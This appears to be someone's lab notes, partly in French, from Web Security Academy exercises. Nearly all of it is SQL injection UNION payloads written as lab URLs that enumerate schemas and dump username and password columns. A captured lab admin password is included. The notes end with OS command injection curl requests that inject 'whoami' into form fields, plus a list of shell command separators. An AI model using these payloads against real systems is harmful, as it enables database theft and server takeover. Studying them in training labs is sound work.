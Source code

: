 ## UNION attacks

https://ace81f321f49cdb0800a8011005e0098.web-security-academy.net/filter?category=Pets%27%20order%20by%202%20--
https://ace81f321f49cdb0800a8011005e0098.web-security-academy.net/filter?category=Pets%27%20union%20select%20username,%20password%20from%20users%20%20--

administrator
fj9so1remafxt4nrjsf2


## Finding columns with a useful data type in an SQL injection UNION attack
https://acbb1f8e1f73055d81b6ae7d003c00c0.web-security-academy.net/filter?category=Pets%27%20union%20select%201234,%20%27ZXmSiR%27,%2011%20--


##SQL injection UNION attack, retrieving data from other tables
https://ac2c1f201fbcdb8a80152ac9005500e7.web-security-academy.net/filter?category=Accessories%27%20union%20select%20username,%20password%20from%20users%20--


##Retrieving multiple values within a single column

https://ac951f5d1fdd3667802a1a9e003e006a.web-security-academy.net/filter?category=Gifts' order by 2 --
https://ac951f5d1fdd3667802a1a9e003e006a.web-security-academy.net/filter?category=Gifts' union select null, 'abcd' --
https://ac951f5d1fdd3667802a1a9e003e006a.web-security-academy.net/filter?category=Gifts%27%20union%20select%20null,%20username%20from%20users%20--
https://ac951f5d1fdd3667802a1a9e003e006a.web-security-academy.net/filter?category=Gifts' union select null, concat(username,' : ', password) from users --



#" SQL injection attack, querying the database type and version on MySQL and Microsoft"

https://acf61fde1f7936fa80ce4335008700a2.web-security-academy.net/filter?category=Gifts%27%20union%20select%20@@version,%20%27bbb%27%20%20%20--%20-

# SQL injection attack, listing the database contents on non-Oracle databases

https://aca31fc41e2eb45f800422aa001b000c.web-security-academy.net/filter?category=Gifts%27%20order%20by%202%20--
https://aca31fc41e2eb45f800422aa001b000c.web-security-academy.net/filter?category=Gifts%27%20union%20select%20%27aaa%27,%20%27bbb%27%20--
https://aca31fc41e2eb45f800422aa001b000c.web-security-academy.net/filter?category=Gifts%27%20union%20select%20%27aaa%27,%20%27bbb%27%20--%20-
https://aca31fc41e2eb45f800422aa001b000c.web-security-academy.net/filter?category=Gifts%27%20union%20select%20TABLE_SCHEMA,%20TABLE_NAME%20from%20%20information_schema.tables%20--%20-
https://aca31fc41e2eb45f800422aa001b000c.web-security-academy.net/filter?category=Gifts%27%20union%20select%20TABLE_SCHEMA,%20TABLE_NAME%20from%20%20information_schema.tables%20%20where%20table_schema=%27public%27--%20-

https://aca31fc41e2eb45f800422aa001b000c.web-security-academy.net/filter?category=Gifts%27%20union%20select%20table_name,%20column_name%20from%20%20information_schema.columns%20%20where%20table_name=%27public%27--%20-

https://aca31fc41e2eb45f800422aa001b000c.web-security-academy.net/filter?category=Gifts%27%20union%20select%20table_name,%20column_name%20from%20information_schema.columns%20where%20table_name=%27users_lxmlwl%27%20--%20-

https://aca31fc41e2eb45f800422aa001b000c.web-security-academy.net/filter?category=Gifts%27%20union%20select%20username_adujgu,%20password_grmyrb%20from%20users_lxmlwl%20--%20-



# SQL injection attack, listing the database contents on Oracle

https://acf51f281fa9db1580678340001f001c.web-security-academy.net/filter?category=abc%27%20union%20select%20%27AAA%27,name%20from%20v$database%20--%20-

==> XE

https://acf51f281fa9db1580678340001f001c.web-security-academy.net/filter?category=abc%27%20union%20select%20%27AAAA%27,%20table_name%20from%20all_tables%20--%20-



https://acf51f281fa9db1580678340001f001c.web-security-academy.net/filter?category=abc%27%20union%20select%20%27AAAA%27,%20column_name%20from%20all_tab_columns%20--%20-



https://acf51f281fa9db1580678340001f001c.web-security-academy.net/filter?category=abc%27%20union%20select%20%27AAAA%27,%20column_name%20from%20all_tab_columns%20where%20table_name=%27USERS_YTPEMD%27%20--%20-


#Recap

Liste des databases 


select SCHEMA_NAME from information_schema.SCHEMATA

Liste des tables

select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = 'public'

Liste des collones

select COLUMN_NAME  from  information_schema.COLUMNS where TABLE_SCHEMA = 'public' and TABLE_NAME= 'users_uvasmj'


Extraire des données 

select username_caovbm, password_zpmyfn  from users_uvasmj


# OS command injection, simple case

curl https://acd41f201fc5363c80728488007700f8.web-security-academy.net/product?productId=1

curl  -b cookie --data-urlencode "productId=1;whoami" --data-urlencode "storeId=2"  https://acd41f201fc5363c80728488007700f8.web-security-academy.net/product/stock



<form id="feedbackForm" action="/feedback/submit" method="POST" enctype="application/x-www-form-urlencoded">
<input required="" type="hidden" name="csrf" value="mQ2hAvF77Bm15brtahLhslmQc6yfj6yR">
<label>Name:</label>
<input required="" type="text" name="name">
<label>Email:</label>
<input required="" type="email" name="email">
<label>Subject:</label>
<input required="" type="text" name="subject">
<label>Message:</label>
<textarea required="" rows="12" cols="300" name="message"></textarea>
<button class="button" type="submit">
    Submit feedback
</button>
<span id="feedbackResult"></span>
</form>


curl  -c cookie https://aca81f2e1f0838c7806b090b005e00f1.web-security-academy.net/feedback

curl -b cookie --data-urlencode "productId=1;whoami" --data-urlencode "storeId=2"  https://acd41f201fc5363c80728488007700f8.web-security-academy.net/product/stock
||whoami>/var/www/images/whoami.txt||


 &whoami>/var/www/images/whoami.txt& 



 &
 &&
 |
 ||
 ;
 0x0a, \n
 `command`
 $(command)
